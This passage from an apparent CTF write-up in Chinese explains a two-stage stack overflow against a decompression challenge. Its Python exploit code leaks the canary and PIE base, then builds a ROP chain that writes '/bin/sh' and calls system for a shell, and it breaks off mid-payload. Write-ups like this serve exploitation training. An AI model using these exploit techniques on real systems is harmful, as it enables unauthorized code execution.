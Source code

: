 

## 利用

通过调试和构造, 

栈中原本存的canary和start函数地址都可以写到解压数据的位置, 再构造重复不断重复这两个值, 造成溢出, 构造数据使canary复写回去, start函数复写到ret位置, 程序打印解压结果造成canary和pie泄漏, 并return到start函数再次运行, 可以再构造rop链.

第二段就可以直接构造rop链了, 这里构造scanf写入"/bin/sh\x00"数据, 然后跟一个system函数, 

注意的是输入点到canary距离是`0x201*8`, canary距离ret距离`0x5*8`, 因此第二段rop推荐做法是先补`1*8`个无用字节, 距离`0x200*8`, 然后写入`0x10*8`个数据arr, 不断重复, arr[0]为canary, arr[6]为返回位置.

两段利用的payload:

```python

def sig2(cn):
    # payload = "54494e590000557C7B5603CAff08ff3fff0000"
    # payload = magic + pad(2) + pad8(0) + compress([
        # 0x1111111111111111, 
    # ], 0x1000) + end

    cn.sendlineafter("3. Read compression format documentation", str(2))

    # payload = magic + repeat(0x204*8, 8, 1) + repeat(0x200 * 8, 8, 1) + repeat(0x1ff * 8, 8, 1) + repeat(0x201*8, 8, 1) + repeat(0x20, 0x1020)+ end
    payload = magic + repeat(0x208*8, 8, 1) + repeat(0x200*8, 8, 1) + handle_data(0x3) + repeat(0x201*8, 8, 1) + repeat(0x20, 0x1050)+ end
    #           magic   stack                   canary                  pad                 start
    # gdb.attach(cn, cmd)
    print(payload)
    cn.sendlineafter("Send me the hex-encoded string (max 4k):", payload)
    cn.recvuntil("That decompresses to:\n")
    
    # 想把/bin/sh写到这里, 后来发现远程的偏移量不同
    stack = un_number(cn.recvn(16, 2).decode())
    print("stack: " + hex(stack))
    binsh = stack - 0x1128
    print("binsh: " + hex(binsh))

    canary = un_number(cn.recvn(16, 2).decode())
    print("canary: " + hex(canary))
    a = un_number(cn.recvn(16, 2).decode())
    print(a==0x3)

    start = un_number(cn.recvn(16, 2).decode())
    print("start: " + hex(start))
    pie = start - 0x0000000000014E0
    print("pie: " + hex(pie))


    cn.sendlineafter("3. Read compression format documentation", str(2))
    
    system  = pie + 0x1134
    pop     = pie + 0x1B03  # pop rdi, ret;
    puts    = pie + 0x1110

    poprsi  = 0x1b01 + pie  # pop rsi, pop r15, ret,
    scanf   = 0x1184 + pie  
    bss     = 0x4050 + pie  # /bin/sh\x00 
    ret     = 0x1b04 + pie  # ret
    s       = 0x20c6 + pie  # "%800s"

    payload = magic + pad8(1) + compress([
```